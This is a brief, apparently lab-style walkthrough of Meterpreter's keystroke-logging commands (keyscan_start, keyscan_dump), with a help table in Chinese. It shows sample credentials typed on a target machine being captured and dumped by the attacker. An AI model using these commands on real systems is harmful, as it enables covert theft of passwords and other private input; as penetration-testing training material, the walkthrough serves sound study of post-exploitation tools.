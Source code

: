 ```
Stdapi：用户界面命令
================================
命令说明
------ ----------
keyscan_dump 转储击键缓冲区
keyscan_start 开始捕获击键
keyscan_stop 停止捕获击键
```

Head over to the target machine. Open up a Notepad session so that we can enter some test data and see whether it's being captured.

Head over back to the attacker machine.

```
meterpreter > keyscan_start
```

That's going to start the key stroke sniffer.

Head over to the target machine.

Notepad:

```
Username:Admin
Password:hacked321
```

Any data that's being input by the keyboard, whether it's in the browser or within any text editor like Notepad or any input from the keyboard is going to be captured, so it's not limited just to Notepad.

That will dump the buffer.

```
meterpreter > keyscan_dump
```

It will dump the captured keystroke. It highlights some of the function keys. And the reason it's saying `<Shift>` is because I set this to uppercase. Whenever you're working with the keyboard, you use shift to set the letter to uppercase. 

Notepad:

```
This is some sample data
```

```
meterpreter > keyscan_dump
```

Open up a PowerShell session here.

```
PS C:\Users\Administrator> ipconfig
```

That'll give us all the interfaces.
